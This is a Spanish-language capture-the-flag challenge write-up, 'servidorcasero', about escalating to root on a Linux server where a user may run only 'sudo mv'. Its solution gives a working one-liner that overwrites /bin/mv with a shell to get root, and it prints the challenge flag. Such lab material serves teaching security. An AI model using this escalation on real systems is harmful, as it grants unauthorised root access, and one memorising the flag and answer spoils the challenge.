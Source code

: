 # Nombre: `servidorcasero`
### Dificultad: `fácil`
### Categoría: `misc`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{sud03rs_3s_p3l1gr0s0!}`

### Descripción:
Camilo me pidió que le montara un servidor linux en un computador viejo para poder guardar películas. No es muy computín, así que le dejé todo listo y le enseñe un solo comando, que necesita para mover las películas cuando las descarga: `sudo mv`. Dudo que alguien pueda escalar a root con eso. `[hostname]:5003`

La flag está en /root/flag.txt y solo es legible por root.

# Hint 1:
sudoers

# Solución:
El user camilo tiene sudo perms para /bin/mv. Hay muchas soluciones posibles. Un ejemplo: `cd tmp; cp /bin/sh .; sudo /bin/mv sh /bin/mv; sudo /bin/mv;` para escalar a root, y luego se puede leer la flag.
